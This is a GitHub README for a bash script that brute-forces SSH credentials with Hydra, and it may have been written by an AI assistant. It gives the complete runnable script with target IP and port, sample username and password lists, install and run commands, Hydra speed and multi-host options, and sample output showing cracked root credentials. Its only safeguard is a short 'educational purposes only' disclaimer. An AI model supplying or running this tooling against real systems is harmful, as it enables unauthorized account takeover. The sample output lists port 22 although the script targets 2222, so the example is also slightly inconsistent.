 
---

# **SSH Brute-Force Automation Script Using Hydra**

This repository contains a **custom bash script** that uses **Hydra** to **brute-force SSH credentials** on a specified target IP and port. The script attempts to find valid SSH credentials by trying different username and password combinations from predefined wordlists.

---

## **⚠️ Disclaimer**
This project is for **educational purposes only**. Unauthorized access or brute-forcing is **illegal** and **punishable by law**. Use this script only in authorized penetration testing environments.

---

# **How It Works**
1. Defines the **target IP address** and **port**.
2. Reads **username** and **password lists** from text files (`users.txt` and `pass.txt`).
3. Uses **Hydra** to perform a **brute-force SSH attack**.
4. Stores **valid credentials** (if found) in `valid_credentials.txt`.

---

## **Script Overview**
```bash
#!/bin/bash

# Define the target IP address and port
TARGET_IP="192.168.8.144"  # Replace with target IP
TARGET_PORT=2222

# Define the path to the username and password files
USER_LIST="users.txt"
PASSWORD_LIST="pass.txt"

# Output file to store valid credentials
OUTPUT_FILE="valid_credentials.txt"

# Check if Hydra is installed
if ! command -v hydra &> /dev/null; then
    echo "Hydra is not installed. Please install it and try again."
    exit 1
fi

# Run Hydra to brute-force SSH credentials
echo "Starting brute force attack with Hydra..."
hydra -L "$USER_LIST" -P "$PASSWORD_LIST" ssh://$TARGET_IP -s $TARGET_PORT -o $OUTPUT_FILE

# Check if valid credentials were found
if [ -s "$OUTPUT_FILE" ]; then
    echo "Brute force attack completed. Valid credentials found:"
    cat "$OUTPUT_FILE"
else
    echo "No valid credentials found."
fi
```

---

## **Installation and Usage**

### **1. Install Hydra (if not already installed):**
```bash
sudo apt update
sudo apt install hydra -y
```

---

### **2. Clone the Repository**
```bash
git clone https://github.com/YOUR_USERNAME/ssh-brute-force-script.git
cd ssh-brute-force-script
```

---

### **3. Create Username and Password Files**
```bash
# Create a sample username list
echo -e "admin\nroot\nuser" > users.txt

# Create a sample password list
echo -e "password\n123456\nadmin" > pass.txt
```

---

### **4. Run the Script**
```bash
chmod +x script3.sh
./script3.sh
```

---

## **Customizing the Script**
1. **Change the Target IP and Port:**
   ```bash
   TARGET_IP="192.168.8.144"   # Replace with your target
   TARGET_PORT=2222            # Custom SSH port
   ```

2. **Update Username and Password Files:**
   ```bash
   USER_LIST="users.txt"   # Username wordlist
   PASSWORD_LIST="pass.txt" # Password wordlist
   ```

3. **Check Valid Credentials:**
   - If Hydra finds **valid credentials**, they will be saved in `valid_credentials.txt`.
   - Use:
     ```bash
     cat valid_credentials.txt
     ```

---

## **Expected Output**
```text
Starting brute force attack with Hydra...
[22][ssh] host: 192.168.8.144   login: root   password: toor

Brute force attack completed. Valid credentials found:
[22][ssh] host: 192.168.8.144   login: root   password: toor
```

---

# **Advanced Features**
- **Hydra Options to Customize:**
  - **Tuning Speed:** Add `-t 4` for 4 parallel tasks.
  - **Verbose Mode:** Use `-V` to see every attempt.
  - **Target Multiple Hosts:** Add multiple IPs in a file.

---

## **Security Recommendations**
- Use this script only in **authorized environments**.
- Ensure **legal authorization** before conducting penetration testing.

---

# **License**
This project is licensed under the **MIT License**. See the `LICENSE` file for details.

---

Let me know if you'd like additional sections or custom configurations! 🚀
